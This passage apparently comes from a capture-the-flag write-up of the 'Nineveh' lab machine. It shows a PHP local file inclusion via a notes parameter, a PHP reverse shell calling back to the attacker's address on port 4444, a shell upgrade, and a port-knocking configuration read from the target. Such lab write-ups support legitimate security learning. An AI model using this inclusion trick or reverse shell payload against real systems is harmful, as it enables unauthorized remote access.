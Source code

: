 ![image.png]({{ site.baseurl }}/assets/nineveh/image%2014.png)

We know that if php is using include(), code can be executed, or even query a remote URL. This mean we can point to our db from here as long as ninevehNotes is in the name.

```bash
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes2.php
```

It worked:

![image.png]({{ site.baseurl }}/assets/nineveh/image%2015.png)

Let’s change the php to a reverse shell:

```bash
<?php $sock=fsockopen("10.10.16.7",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```

![image.png]({{ site.baseurl }}/assets/nineveh/image%2016.png)

We now have shell:

![image.png]({{ site.baseurl }}/assets/nineveh/image%2017.png)

Let’s upgrade our shell and look at running processes:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

ps -ef --forest
```

We see this:

```bash
root      1292     1  0 03:51 ?        00:00:58 /usr/sbin/knockd -d -i ens160

```

That process is a **port-knocking service** running as root, monitoring network traffic on `ens160`. Once someone sends the right “knock” sequence, it will dynamically open ports (commonly SSH) using iptables/firewalld rules.

We can find out how we should “knock” from configuration file:

```bash
cat /etc/knockd.conf

[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

```
